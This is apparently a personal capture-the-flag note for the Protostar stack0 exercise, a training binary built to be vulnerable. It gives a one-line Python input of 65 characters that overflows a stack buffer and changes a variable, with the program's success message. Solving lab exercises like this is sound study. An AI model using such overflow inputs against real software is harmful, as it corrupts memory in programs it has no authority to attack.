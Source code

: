 # Link
https://exploit-exercises.com/protostar/stack0/ 

# Solution
user@protostar:/opt/protostar/bin$ python -c 'print "a"*65' | ./stack0

you have changed the 'modified' variable 

# What I learned
